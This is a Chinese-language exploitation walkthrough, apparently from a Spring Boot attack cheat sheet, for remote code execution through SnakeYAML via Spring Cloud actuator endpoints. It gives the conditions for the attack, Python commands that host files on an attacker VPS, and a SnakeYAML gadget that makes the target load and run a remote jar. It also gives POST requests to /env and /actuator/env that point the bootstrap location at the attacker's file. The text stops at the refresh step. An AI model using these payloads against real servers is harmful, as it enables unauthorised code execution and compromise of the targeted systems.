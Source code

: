 ### 0x02：spring cloud SnakeYAML RCE

#### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

#### 利用方法

##### 步骤一： 托管 yml 和 jar 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在网站根目录下放置后缀为 `yml` 的文件  `example.yml`，内容如下：

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]
```

在网站根目录下放置后缀为 `jar` 的文件  `example.jar`，内容是要执行的代码，代码编写及编译方式参考 [yaml-payload](https://github.com/artsploit/yaml-payload)。

##### 步骤二： 设置 spring.cloud.bootstrap.location 属性

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/example.yml
```

spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}
```

##### 步骤三： 刷新配置
